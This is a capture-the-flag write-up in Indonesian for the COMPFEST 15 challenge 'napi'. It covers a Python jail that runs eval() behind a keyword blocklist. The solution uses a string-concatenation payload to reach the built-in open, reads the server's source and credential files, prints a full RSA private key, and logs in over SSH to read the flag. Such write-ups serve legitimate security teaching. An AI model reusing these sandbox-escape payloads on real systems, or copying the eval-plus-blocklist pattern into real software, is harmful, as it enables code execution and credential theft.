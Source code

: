# __CTF COMPFEST 15__ 
## _napi_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Misc | 316 | themanusia

**Description:** 

> john is currently planning an escape from jail. Fortunately, he got a snippet of the jail source code from his cellmate. Can you help john to escape?
> 
> `nc 34.101.122.7 10008`
> 
> [snippet.py](snippet.py)

### snippet.py
```py
# ...

def main():
    banned = ['eval', 'exec', 'import', 'open', 'system', 'globals', 'os', 'password', 'admin']

    print("--- Prisoner Limited Access System ---")

    user = input("Enter your username: ")

    if user == "john":
        inp = input(f"{user} > ")

        while inp != "exit":
            for keyword in banned:
                if keyword in inp.lower() or not inp.isascii():
                    print(f"Cannot execute unauthorized input {inp}")
                    print("I told you our system is hack-proof.")
                    exit()
            try:
                eval(inp)
            except:
                print(f"Cannot execute {inp}")
            
            inp = input(f"{user} > ")

    elif user == "admin":
        print("LOGGING IN TO ADMIN FROM PRISONER SHELL IS NOT ALLOWED")
        print("SHUTTING DOWN...")
        exit()
    
    else:
        print("User not found.")

# ...
```

## Solution
Pada chall ini kita bisa menggunakan syntax python tapi dengan batasan tidak bisa menggunakan beberapa syntax pada list `banned`. Jalankan challnya pada remote dan kita coba menggunakan syntax berikut.

```sh
john > print(__builtins__.__dict__['op'+'en'])
```

Dan menghasilkan

```py
<built-in function open>
```

Kita lanjutkan dengan melihat isi source code chall ini karena pada file yang ada pada soal kurang lengkap menggunakan syntax berikut.

```sh
john > print(__builtins__.__dict__['op'+'en'](__file__).read())
```

Dan menghasilkan [chall.py](chall.py)

## chall.py
```py
password = open("creds.txt", "r")

del __builtins__.__import__


def main():
    banned = ['eval', 'exec', 'import', 'open',
              'system', 'globals', 'os', 'password', 'admin']

    print("--- Prisoner Limited Access System ---")

    user = input("Enter your username: ")

    if user == "john":
        inp = input(f"{user} > ")

        while inp != "exit":
            for keyword in banned:
                if keyword in inp.lower() or not inp.isascii():
                    print(f"Cannot execute unauthorized input {inp}")
                    print("I told you our system is hack-proof.")
                    exit()
            try:
                eval(inp)
            except:
                print(f"Cannot execute {inp}")

            inp = input(f"{user} > ")

    elif user == "admin":
        print("LOGGING IN TO ADMIN FROM PRISONER SHELL IS NOT ALLOWED")
        print("SHUTTING DOWN...")
        exit()

    else:
        print("User not found.")


def admin(password_io=None):
    if password_io == globals()['password']:
        print(f"Welcome admin!")
        print("Here's the flag: ")
        with open("notice.txt", "r") as f:
            print(f.read())
    else:
        print("Wrong password!")


if __name__ == "__main__":
    try:
        main()
    except:
        print("Something horribly wrong happened")

```

Terlihat 2 file yang menarik yaitu `notice.txt` dan `creds.txt`, kita buka kedua file tersebut.

```sh
john > print(__builtins__.__dict__['op'+'en']('creds.txt').read())
```

```sh
john > print(__builtins__.__dict__['op'+'en']('notice.txt').read())
```

Dan menghasilkan [creds.txt](creds.txt) dan [notice.txt](notice.txt).

### creds.txt
```
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFb3dJQkFBS0NBUUVBbjhDYzFqdnZW
ZGFESTlOUThlbk5kd1BaTFd1Qkt5aG13ZklpV1NUREdJYi8xNTVkCmhXMGZ2aXNCVkJvMFZhamRG
MFhsL056MEpYd2RXcGVVcmdzaUUyKytrSHBrZ3Z6VHVma3BsVkRERkNBNDR6b3EKSHhKS09TVzdW
VzgvNjdHbHorQlBBc1RkYloySUEwYThTVVJIZ1FXc0IybXlBRmxRNGNLNXBodlFpZjRQQ0didQpL
VkMyNTBHcTRTUzBnYnhicjdjUXVhek9JYWljKzd5azYzcW5RakkvRVladkRMSHVtdG1uaEpnc3JM
SVdMeUZ2Ci9DU05XWnJXSVozREwwWGphUkRiQzBHMGw4dlNVNUpOZ0E2S1JRTDhUOUIwZk5pYXl1
U28zMWVHMy9CY3l5YVYKVG1EM1lsQ2J4NUU1TlZsemt0N1I0M3dkYVZFV0FBVzBwOGprdFFJREFR
QUJBb0lCQUUxZkgxYlBMbXFYZTJwVgpoV1cxQkJNNVpPMFBuVDdHMFlYcmZPRko0Y2UyVXFFZWpW
TDYrQjNGZkY0OFZzNkorNUt6QXVIR0xlVWR5S1hBCnRuelkzWWNtWHRoZ3Z0K0dEaEdMY0sxbHNT
WEZPV2dzR294ejhramRVbTdkYzhyMmZrVkE4V040NzNtUWkzaHkKd095SFNrNWQ3ZVNsTjFYZDdF
TjdhU2pmWGRBRzNVTmRISWR2clAwL2t5K3J6SzlualN0bHF5RGUyYVFTZHRpNQpQa2xQSVY1QUVY
bnNSVGNoUzFLVTcvdWlxVUw5L1BsQlZXM1lieTl2OVExVm5Jd3Z4eXA2aVRQOW13RW1RM251Ci9h
Zm9XTEJtOUFicnV6UXpSdzN0aGN0UlNvMTZWREFBQW5ybGd1NkhMSXJGK21jaER6NERuN2pDZm8x
YlZzRk0KSTJ2aHlPRUNnWUVBMFlrRTZtSlBGdDhJcENZVzlOUGw3bHMzTnV1NVlNY2ZLbzhndy9h
RnZXaHJGRUtnOGJqUwp3STNrcTFGN0pWS0tYQVVGMDEwNGJmZ3QwMnJpTTJ0cGxUZnQ4ajZ0dGQ2
RWt3Yy8xdDhTUjNpelQyaTc5TW1hCnRTb3BCcThhcDZuRVEwSElITU9XYnlZYVgxSmFsZVVhcTBl
eVRrQWNWZFRRN3E1OUZaTVpVazBDZ1lFQXd5MkEKU3V6Q0haMy9uVGYrT0YvUi9JMi9nWHcvOGtj
MEhmSnZjbkVrZWg2TUR4cWhwc0YzZlRBbzZiV2N5cWZhbzdtVQpJREF2NjBlbjlyNFpWbWdOQm1K
N2JhbUxTTmg3RDhhaTZPZ1d3Q1NDQ0JMV0RuSzFKZXd2NFhJWklLM3BERGZhCkJ1MWx0YUpqMkVG
WmVIQUV5a0MvSG5DbVhVbjZjazNudUt2NUFBa0NnWUFiRys0ZDRQQTRsa3lJNkVDcUZrdzIKUldq
a1d5VVZ4MDFaOVVDWStla2RzMGUvVEV1RVdwUXh3Mm5sWEZwaFhzZDExbFNGbnhidzYxNEtiMWFx
cm1mdgpuVmZVc3BWSTVXd2psWm1GMUVDS0xLeU9Sbytpd1A2YUY4Vk5EeFNVd3BzWTFJYnVhY09w
eDdVN3hlemdYYzdRCmdDc3FncExuNit2SUpaMGJVSGZETlFLQmdRQ3E4MTJkUW9ZN1hyb1d3SVpn
WmowTVVqTmNmTEdkeVpQeWJ2Z0MKYXVzaU0wTkZyM1BMRlVWTlZ6TmVrSDNHV3dMN3lIM2ZPNVdk
SkdRUGtDMnRLdkhObDlDNEdub3UwYjNuOFhtYgpPajFEQ2pjQ1QwMUIxbUtuMXBtUmcxaFM4VUJn
UFVNd01ocVYzcWhKTCtQbncyWE9xS3M5UkRuVEdBck90MEd3CjFLQUIwUUtCZ0FHVFVPWGhVOVhB
bHZVZG9DeTFUZTNLeU5TWFRwekJXNFJxN3p3ejZQMENOVzlQTHNxNHNFRU0KcjlHYXpFUys5aW92
eS9DeDlFd0xCVXlLWi9sTFVzUWNta2IwOWdTS2hBbTk5aXRKSVE0eHJYUytyR2I5dzQrbgpqclRh
OHF6Y3QvOGNVOGlkeHlFUVZoc2xhRnlCQkU5elE2REtjb3RRQ1BrQmY3T09Lc0MvCi0tLS0tRU5E
IFJTQSBQUklWQVRFIEtFWS0tLS0tCg==
```

### notice.txt
```
--- IMPORTANT NOTICE ---

Dear admins, I have received information that a prisoner is trying to get access to the flag.
I have moved the flag somewhere safe.
I would advise you not to access the flag right now.
But if there is an urgent matter, login to admin@THIS_SERVER_IP:10009 with your password as the SSH key to access the flag.
```


Pada [creds.txt](creds.txt) masih berupa base64, kita encode menghasilkan [rsa.txt](rsa.txt).

### rsa.txt
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAn8Cc1jvvVdaDI9NQ8enNdwPZLWuBKyhmwfIiWSTDGIb/155d
hW0fvisBVBo0VajdF0Xl/Nz0JXwdWpeUrgsiE2++kHpkgvzTufkplVDDFCA44zoq
HxJKOSW7VW8/67Glz+BPAsTdbZ2IA0a8SURHgQWsB2myAFlQ4cK5phvQif4PCGbu
KVC250Gq4SS0gbxbr7cQuazOIaic+7yk63qnQjI/EYZvDLHumtmnhJgsrLIWLyFv
/CSNWZrWIZ3DL0XjaRDbC0G0l8vSU5JNgA6KRQL8T9B0fNiayuSo31eG3/BcyyaV
TmD3YlCbx5E5NVlzkt7R43wdaVEWAAW0p8jktQIDAQABAoIBAE1fH1bPLmqXe2pV
hWW1BBM5ZO0PnT7G0YXrfOFJ4ce2UqEejVL6+B3FfF48Vs6J+5KzAuHGLeUdyKXA
tnzY3YcmXthgvt+GDhGLcK1lsSXFOWgsGoxz8kjdUm7dc8r2fkVA8WN473mQi3hy
wOyHSk5d7eSlN1Xd7EN7aSjfXdAG3UNdHIdvrP0/ky+rzK9njStlqyDe2aQSdti5
PklPIV5AEXnsRTchS1KU7/uiqUL9/PlBVW3Yby9v9Q1VnIwvxyp6iTP9mwEmQ3nu
/afoWLBm9AbruzQzRw3thctRSo16VDAAAnrlgu6HLIrF+mchDz4Dn7jCfo1bVsFM
I2vhyOECgYEA0YkE6mJPFt8IpCYW9NPl7ls3Nuu5YMcfKo8gw/aFvWhrFEKg8bjS
wI3kq1F7JVKKXAUF0104bfgt02riM2tplTft8j6ttd6Ekwc/1t8SR3izT2i79Mma
tSopBq8ap6nEQ0HIHMOWbyYaX1JaleUaq0eyTkAcVdTQ7q59FZMZUk0CgYEAwy2A
SuzCHZ3/nTf+OF/R/I2/gXw/8kc0HfJvcnEkeh6MDxqhpsF3fTAo6bWcyqfao7mU
IDAv60en9r4ZVmgNBmJ7bamLSNh7D8ai6OgWwCSCCBLWDnK1Jewv4XIZIK3pDDfa
Bu1ltaJj2EFZeHAEykC/HnCmXUn6ck3nuKv5AAkCgYAbG+4d4PA4lkyI6ECqFkw2
RWjkWyUVx01Z9UCY+ekds0e/TEuEWpQxw2nlXFphXsd11lSFnxbw614Kb1aqrmfv
nVfUspVI5WwjlZmF1ECKLKyORo+iwP6aF8VNDxSUwpsY1IbuacOpx7U7xezgXc7Q
gCsqgpLn6+vIJZ0bUHfDNQKBgQCq812dQoY7XroWwIZgZj0MUjNcfLGdyZPybvgC
ausiM0NFr3PLFUVNVzNekH3GWwL7yH3fO5WdJGQPkC2tKvHNl9C4Gnou0b3n8Xmb
Oj1DCjcCT01B1mKn1pmRg1hS8UBgPUMwMhqV3qhJL+Pnw2XOqKs9RDnTGArOt0Gw
1KAB0QKBgAGTUOXhU9XAlvUdoCy1Te3KyNSXTpzBW4Rq7zwz6P0CNW9PLsq4sEEM
r9GazES+9iovy/Cx9EwLBUyKZ/lLUsQcmkb09gSKhAm99itJIQ4xrXS+rGb9w4+n
jrTa8qzct/8cU8idxyEQVhslaFyBBE9zQ6DKcotQCPkBf7OOKsC/
-----END RSA PRIVATE KEY-----

```

Pada [notice.txt](notice.txt) terdapat hint bahwa kita harus mengakses server SSH dengan credential admin. Lalu kita akses server SSH dengan password yang ditemukan tadi. Jangan lupa juga mengganti permission [rsa.txt](rsa.txt) ke `600`

 ```sh
 $ chmod 600 rsa.txt
 ```

 ```sh
 $ ssh admin@34.101.122.7 -p 10009 -i rsa.txt
 ```

Setelah berhasil mengakses server SSH kita gunakkan command

```sh
$ ls
```

untuk melihat list file dan terdapat file `flag.txt` dan kita buka untuk mendapakan flag

```sh
$ cat flag.txt
```

## Flag:
> COMPFEST15{clo5e_y0ur_f1LE_0bj3ctS_plZzz___THXx_053fac8f23}